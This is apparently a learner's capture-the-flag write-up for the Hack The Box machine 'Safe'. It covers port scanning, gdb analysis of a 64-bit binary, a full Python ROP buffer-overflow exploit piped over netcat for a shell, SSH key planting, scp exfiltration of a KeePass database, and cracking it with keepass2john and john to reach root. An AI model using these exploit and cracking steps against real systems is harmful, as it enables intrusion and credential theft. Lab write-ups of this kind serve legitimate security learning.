



Safe is a Linux machine rated Easy on HTB. I rooted this box while it was active.

## Information Gathering and Vulnerability Identification

### Port Scan

`nmap -sC -sV -oA initial 10.10.10.147`

```
Nmap scan report for 10.10.10.147
Host is up (0.25s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 6d:7c:81:3d:6a:3d:f9:5f:2e:1f:6a:97:e5:00:ba:de (RSA)
|   256 99:7e:1e:22:76:72:da:3c:c9:61:7d:74:d7:80:33:d2 (ECDSA)
|_  256 6a:6b:c3:8e:4b:28:f7:60:85:b1:62:ff:54:bc:d8:d6 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Apache2 Debian Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
After running an initial scan, I run an all port scan while I work on probing the common ports that showed up.

`nmap -p- all 10.10.10.147`

(I used to forget scanning all ports, so now I use a shell script to setup my working folders for HTB and initiate scans.)

### HTTP

#### HTTP Methodology Review

* Open in browser
* Bust directories and fuzz for files
* Try different ways to interact with the webserver. For e.g., GET, POST, PUT, etc. (curl is helpful for this.)
* Examine the source files.
* If the site is interactive or accepts inputs in anyway then play with it.

**Open in Browser**

It shows a default Apache installation page.



**View Source**

In this case, only one approach panned out and that is viewing the source. An overt clue is shown as a HTML comment.



"From here" means that the app is at `10.10.10.147/myapp`, so let's download it.

Using the `file` command, we can see that myapp is a 64-bit [ELF](https://linux-audit.com/elf-binaries-on-linux-understanding-and-analysis/).

```
root@kali:~/htb/safe# file myapp
myapp: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=fcbd5450d23673e92c8b716200762ca7d282c73a, not stripped
```

Also, let's verify that the myapp is running at port 1337.

```
root@kali:~# nc 10.10.10.147 1337
 01:35:03 up 34 min,  0 users,  load average: 0.00, 0.00, 0.00
test

What do you want me to echo back? test
```

It appears to be an app shows uptime followed by echoing what you type in.

### Testing For Buffer Overflow Vulnerability

I'm a beginner at BOF.

Before this, the only buffer overflow I worked through was a simple 32-bit example from Georgia Weidman's excellent book [Penetration Testing: A Hands-on Introduction to Hacking](https://www.amazon.com/Penetration-Testing-Hands-Introduction-Hacking/dp/1593275641).

So I'll focus on the thought process I went through to complete and (sorta) understand this BOF. I'll link to helpful references and tutorials along the way.

(To be honest, when I worked on the box, I relied on two things to exploit this binary: nights of frantic googling, and half-baked understanding of everything I read. This write-up serves to revisit and consolidate what I picked up.)

<details>

<summary>If you are completely new to reverse engineering and binary exploitation, expand this for suggested resources.</summary>

Consider working through the tutorials below in sequence:

* [Reverse Engineering](https://shellterlabs.com/en/training/get-started/art-reverse-engineering/)
* [Binary Exploitation](https://shellterlabs.com/en/training/get-started/writing-exploits/)
* [64-bit Buffer Overflow](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/)
* [64-bit Buffer Overflow with NX enabled](https://blog.techorganic.com/2015/04/21/64-bit-linux-stack-smashing-tutorial-part-2/) 

</details>

Let's test for buffer overflow vulnerability manually. Here, we generate a sequence of As with python and pipe it to the application.

`python -c 'print("A"*200)'`

```
root@kali:~/htb/safe# python -c 'print("A"*200)' | ./myapp
 13:05:26 up 15:53,  1 user,  load average: 0.10, 0.18, 0.17

What do you want me to echo back? AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Segmentation fault
```
We managed to trigger a segmentation fault, so there might be a buffer overflow that we can exploit.

Let's disassemble the ELF to confirm.

#### Analyzing myapp

First, let's list all the functions to get an overview.

```
gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  system@plt
0x0000000000401050  printf@plt
0x0000000000401060  gets@plt
0x0000000000401070  _start
0x00000000004010a0  _dl_relocate_static_pie
0x00000000004010b0  deregister_tm_clones
0x00000000004010e0  register_tm_clones
0x0000000000401120  __do_global_dtors_aux
0x0000000000401150  frame_dummy
0x0000000000401152  test
0x000000000040115f  main
0x00000000004011b0  __libc_csu_init
0x0000000000401210  __libc_csu_fini
0x0000000000401214  _fini
```
We'll take a closer look at main and test to see what they are doing.

**main**

```
gdb-peda$ disassemble main
Dump of assembler code for function main:
   0x000000000040115f <+0>:	push   rbp
   0x0000000000401160 <+1>:	mov    rbp,rsp
   0x0000000000401163 <+4>:	sub    rsp,0x70
   0x0000000000401167 <+8>:	lea    rdi,[rip+0xe9a]        # 0x402008
   0x000000000040116e <+15>:	call   0x401040 <system@plt>
   0x0000000000401173 <+20>:	lea    rdi,[rip+0xe9e]        # 0x402018
   0x000000000040117a <+27>:	mov    eax,0x0
   0x000000000040117f <+32>:	call   0x401050 <printf@plt>
   0x0000000000401184 <+37>:	lea    rax,[rbp-0x70]
   0x0000000000401188 <+41>:	mov    esi,0x3e8
   0x000000000040118d <+46>:	mov    rdi,rax
   0x0000000000401190 <+49>:	mov    eax,0x0
   0x0000000000401195 <+54>:	call   0x401060 <gets@plt>
   0x000000000040119a <+59>:	lea    rax,[rbp-0x70]
   0x000000000040119e <+63>:	mov    rdi,rax
   0x00000000004011a1 <+66>:	call   0x401030 <puts@plt>
   0x00000000004011a6 <+71>:	mov    eax,0x0
   0x00000000004011ab <+76>:	leave  
   0x00000000004011ac <+77>:	ret    
End of assembler dump.
```
<main+8>: Loads the address of uptime before calling system() to execute it.
```
gdb-peda$ x/s 0x402008
0x402008:	"/usr/bin/uptime"
```
<main+20>: Loads the address to the string that we saw when we tested the app.
```
gdb-peda$ x/s 0x402018
0x402018:	"\nWhat do you want me to echo back? "
```
From our interaction with the program, we know that from here, we can feed the program with user-input. So let's pay more attention here.

* <main+37>: Loads a buffer of 112 bytes into RAX. (0x70 = 112)

* To convert base16 to decimal on command line, use `echo $((0x70))`.

* <main+54>: gets() is called here. [gets() is unsafe](https://cwe.mitre.org/data/definitions/242.html) as it does not check array bounds.

#### Confirming Buffer Overflow

This main takeaway from the section above is that if we fill the buffer with 112 bytes of junk, we should be able to control the RBP and the RIP.

Let's try. The Python script below:

* Generates 112 x "A" as junk to fill up the buffer

* 8 x "B" to fill up the base pointer (RBP)

* 6 x "C" to fill up the (RIP) - If you use 8 x "C", it will not work as it exceeds the [canonical address range](https://read.seas.harvard.edu/cs161/2018/doc/memory-layout/).

`root@kali:~/htb/safe# python -c 'print("A" * 112 + "C" * 8 + "B" * 6)' > bufferoverflow.txt`

Now, let's fire up gdb.

```
root@kali:~/htb/safe# gdb myapp -q
Reading symbols from myapp...
(No debugging symbols found in myapp)
gdb-peda$ set follow-fork-mode parent
gdb-peda$ break * main+77
Breakpoint 1 at 0x4011ac
gdb-peda$ run < bufferoverflow.txt
```
* Set follow fork mode to parent because we are interested in the main program. (gdb-peda has the default follow fork mode set to child)

* Set a breakpoint where main returns.

* Run it by piping `bufferoverflow.txt` to the program.

* You need to key in `s` to step once to see the results below.

```
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7ffff7ed7904 (<__GI___libc_write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7fa8580 --> 0x0
RSI: 0x4052a0 ("What do you want me to echo back? ", 'A' <repeats 112 times>, "BBBBBBBBCCCCCC\n")
RDI: 0x0
RBP: 0x4242424242424242 ('BBBBBBBB')
RSP: 0x7fffffffe080 --> 0x0
RIP: 0x434343434343 ('CCCCCC')
R8 : 0x7f
R9 : 0x0
R10: 0x4003e0 --> 0x6972700073747570 ('puts')
R11: 0x246
R12: 0x401070 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe150 --> 0x1
R14: 0x0
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x434343434343
```
The RBP is filled up with 'BBBBBBBB'. The RIP is filled up with 'CCCCCC'.

Exactly what we expected. Great.

Now that we are confident of taking control of the RIP, let's take a quick look at `test` before moving on.

**test**

This function does nothing much.

```
gdb-peda$ disassemble test
Dump of assembler code for function test:
   0x0000000000401152 <+0>:	push   rbp    # pushes rbp onto the stack (rsp)
   0x0000000000401153 <+1>:	mov    rbp,rsp    # copies rsp into rbp
   0x0000000000401156 <+4>:	mov    rdi,rsp    # copies rsp into rdi
   0x0000000000401159 <+7>:	jmp    r13    # jumps to r13
   0x000000000040115c <+10>:	nop
   0x000000000040115d <+11>:	pop    rbp
   0x000000000040115e <+12>:	ret    
End of assembler dump.
```

I annotated the first four lines. Notes of interest:

* `test` got RBP into RDI. (This is noteworthy because we can control RBP and RDI is the first argument of a called function.)
* There is a jump to R13. (This means that `test` can be helpful if we manage to control what goes into R13.)

## Attacks and Exploits

### Buffer Overflow

There are different protections against binary exploitation. The `checksec` command will help us learn which ones are activated.

```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
NX is enabled. This means the stack is not executable. So even if we manage to place our shellcode on the stack, it will not be executed.

Hence, we need to use return oriented programming (ROP). From Wikipedia, emphasis is mine.

> In this technique, an attacker **gains control of the call stack** to hijack program control flow and then executes **carefully chosen machine instruction sequences that are already present in the machine's memory**, called "gadgets". Each gadget typically ends in a return instruction and is located in a subroutine within the existing program and/or shared library code. **Chained together**, these gadgets allow an attacker to perform arbitrary operations on a machine employing defenses that thwart simpler attacks.

#### Key Points

* The point of overflowing the buffer is to take control of the instruction pointer (RIP) and hence the call stack.

* With NX enabled, the stack is not executable. This means that we cannot supply our function/shellcode to the stack for execution. (The method in this [tutorial](https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/) does not work here.)

* Hence, we need to find and maybe chain functions located within the program itself or in its linked libraries.

* We want to obtain a shell, so we want the program to execute `system("/bin/sh")`.

* In x64 convention, RDI holds the first parameter of a function. So we need to get a pointer to `"/bin/sh"` into RDI before we call `system()`.

In summary, we need to achieve three things in sequence:

1. Control the RIP (to start chaining instructions to complete point 2 and 3 below)
2. Insert a pointer to "/bin/sh" into RDI
3. Return to system()

**Control the RIP**

First, we can easily control RIP with the offset we figured out above. We need to feed 120 characters into the buffer and the next 8 bytes will go into RIP.

```
buf = ""
buf += "A" * 120
```

**Get a pointer to "/bin/sh" into RDI**

Next, we need to get a pointer to "/bin/sh" into RDI. This is trickier because we can't find such a pointer in our program.

```
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Not found
```
What we cannot find within, we supply from without. So let's alter our payload.

```
buf = ""
buf += "A" * 112
buf += "/bin/sh\x00"
```
The last 8 bytes of the 120 bytes overwrites the RBP. With this modification, we can place "/bin/sh" into RBP. The `\x00` is a string terminator.

But we are not done. We need to get "/bin/sh" (RBP) into RDI.

We have just the tool (function) for that. Recall the `test` function.

It will help us get RBP into RDI, before making jump to R13.

**Return to system()**

First, let's find the address to system(). We know that it's available because we saw system@plt when we conducted the disassembly.

```
root@kali:~/htb/safe# gdb myapp -q
Reading symbols from myapp...
(No debugging symbols found in myapp)
gdb-peda$ p system
$1 = {<text variable, no debug info>} 0x401040 <system@plt>
```

Okay, system() is at **0x401040**.

Since `test` will jump to R13, placing a pointer to system() at R13 will be ideal.

Let's look for any gadget that can help us. I recomend [ROPgadget](https://github.com/JonathanSalwan/ROPgadget).

```
root@kali:~/htb/safe# ROPgadget --binary myapp | grep r13
0x00000000004011ee : mov edi, r13d ; call qword ptr [r12 + rbx*8]
0x0000000000401204 : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401206 : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401203 : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000401205 : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
```
`pop r13 ; pop r14 ; pop r15 ; ret` seems ideal as it minimizes the junk we need to insert.

This gadget will pop the top of the stack into R13, R14, and R15.

We need to construct the stack with a pointer to system() to be popped into R13, followed by two sets of junk for R14 and R15.

#### Final Exploit in Python

```
#!/usr/bin/env python
from struct import * # library for converting between python data type and bytes for C

buf = ""
buf += "A"*112 # fill the buffer
buf += "/bin/sh\x00" # overried rbp
buf += pack("<Q", 0x401206) # pop_r13_r14_r15_ret
buf += pack("<Q", 0x401040) # place system in r13
buf += pack("<Q", 0x0000000000000000) # place junk in r14
buf += pack("<Q", 0x0000000000000000) # place junk in r15
buf += pack("<Q", 0x401152) # call test which will push "/bin/sh" into RDI before jumping to R13 where system() is

f = open("in.txt", "w")
f.write(buf)
```

#### Getting a Shell

Running the exploit above will generate `in.txt`.

Then, we need to pipe the contents of in.txt the program that's running remotely at port 1337.

The extra `cat` bewilders some of us. [There's an explanation here.](https://security.stackexchange.com/questions/155844/using-cat-file-cat-to-run-a-simple-bof-exploit)

```
root@kali:~/htb/safe# (cat in.txt; cat) | nc 10.10.10.147 1337
 21:42:04 up 4 min,  0 users,  load average: 0.03, 0.05, 0.02

whoami
user
cd /home
ls
user
cd user
ls
IMG_0545.JPG
IMG_0546.JPG
IMG_0547.JPG
IMG_0548.JPG
IMG_0552.JPG
IMG_0553.JPG
myapp
MyPasswords.kdbx
user.txt
```
The user flag is there, together with some interesting files we'll need to get root.

### Privilege Escalation

MyPasswords.kdbx stands out.

What is a KDBX file? From [fileext.com](https://filext.com/file-extension/KDBX):

> The KDBX file type is primarily associated with KeePass by Dominik Reichl. KeePass is a free open source password manager, which helps you to manage your passwords in a secure way. You can put all your passwords in one database, which is locked with **one master key or a key file**. So you only have to remember one single master password or select the key file to unlock the whole database.

We want to unlock this database and we need a master key or key file. It's possible that one of the files in the home directory is the key file. So let's exfiltrate the relevant files for a closer look.

#### Exfiltrating files with scp

Let's get SSH access by adding our public key to authorized_keys under the hidden ssh folder.

```
cd .ssh
echo 'ssh-rsa <SNIP>' >> authorized_keys
```
Now, we can use [scp](https://linuxize.com/post/how-to-use-scp-command-to-securely-transfer-files/) to copy the data from remote to our local machine.

```
root@kali:~/htb/safe# scp user@10.10.10.147:~/*.JPG .
IMG_0545.JPG                                                                       100% 1863KB 828.6KB/s   00:02    
IMG_0546.JPG                                                                       100% 1872KB   2.3MB/s   00:00    
IMG_0547.JPG                                                                       100% 2470KB   1.3MB/s   00:01    
IMG_0548.JPG                                                                       100% 2858KB 928.8KB/s   00:03    
IMG_0552.JPG                                                                       100% 1099KB 704.4KB/s   00:01    
IMG_0553.JPG                                                                       100% 1060KB 692.9KB/s   00:01    
root@kali:~/htb/safe# scp user@10.10.10.147:~/*.kdbx .
MyPasswords.kdbx                                                                   100% 2446     9.6KB/s   00:00   
```
#### Extracting and cracking hashes with keepass2john (and john)

[Based on this article](https://www.rubydevices.com.au/blog/how-to-hack-keepass), there is a nifty tool for extracting hashes from a Keepass database - keepass2john.

`Usage: keepass2john [-k <keyfile>] <.kdbx database(s)>`

The shell script below will extract the hashes into hashes.txt before getting john to crack the hash. It loops through the JPG files as key files.

```
#!/bin/sh
for file in *.JPG
do
  echo "For $file"
  keepass2john -k $file MyPasswords.kdbx > hashes.txt
  john --wordlist=/root/resources/10k-most-common.txt hashes.txt
done
```

**Output**

```
root@kali:~/htb/safe# bash loopimages.sh
For IMG_0545.JPG
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:44 DONE (2020-02-26 14:12) 0g/s 95.47p/s 95.47c/s 95.47C/s booper..eyphed
Session completed
For IMG_0546.JPG
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:01:40 DONE (2020-02-26 14:13) 0g/s 99.27p/s 99.27c/s 99.27C/s booper..eyphed
Session completed
For IMG_0547.JPG
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60000 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES, 1=TwoFish, 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bullshit         (MyPasswords)
1g 0:00:00:04 DONE (2020-02-26 14:14) 0.2409g/s 107.9p/s 107.9c/s 107.9C/s kitten..horney
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Findings:

* Key file: IMG_0547.JPG

* Password: bullshit

You can also use hashcat, but you'll need to edit the hash output from keepass2john slightly.

#### Opening the database with kpcli

To open the kdbx file using the password we cracked, we need a command line tool: [kpcli](http://kpcli.sourceforge.net/).

```
root@kali:~/htb/safe# kpcli -kdb MyPasswords.kdbx -key IMG_0547.JPG
Please provide the master password: *************************

KeePass CLI (kpcli) v3.1 is ready for operation.
Type 'help' for a description of available commands.
Type 'help <command>' for details on individual commands.

kpcli:/> ls
=== Groups ===
MyPasswords/
kpcli:/> cd MyPasswords/
kpcli:/MyPasswords> ls
=== Groups ===
eMail/
General/
Homebanking/
Internet/
Network/
Recycle Bin/
Windows/
=== Entries ===
0. Root password                                                          

kpcli:/MyPasswords> show -f 0

 Path: /MyPasswords/
Title: Root password
Uname: root
 Pass: u3v2249dl9ptv465cogl3cnpo3fyhk
  URL:
Notes:
```

With the password, we can switch to root and get the root flag.

```
user@safe:~$ su
Password:
root@safe:/home/user# whoami
root
```

## Ending Thoughts

Although Safe is officially rated as easy on HTB, a fair number of players think that it's not that easy. It's not easy to me too, but I've learned a lot.

I think it's rated easy because of how contrived the binary exploitation is. It tells you directly where to download it, and gives you an unused function to make use of. It uses gets() and included system(). (Not that I agree with the easy rating.)

There are more sophisticated ways to crack the binary. For e.g., this [fantastic write-up](https://0xdf.gitlab.io/2019/10/26/htb-safe.html) shows three different ways to exploit the binary. I'll be trying them out to learn more.

I used gdb and a plain Python script for the BOF. There are other tools like radare and pwntools. But being new to this, I wanted to spend less time learning new tools and focus on the basics of binary exploitation.

Finally, I groped my way around Assembly to figure out what's going on here. So if you spot any mistakes in my understanding, please let me know.

This is a tough but satisfying one to write.

*References*

* [GDB cheatsheet](https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf)
* [x64 asm cheatsheet](https://cs.brown.edu/courses/cs033/docs/guides/x64_cheatsheet.pdf)
* [Return to PLT](https://www.ret2rop.com/2018/08/return-to-plt-got-to-bypass-aslr-remote.html)
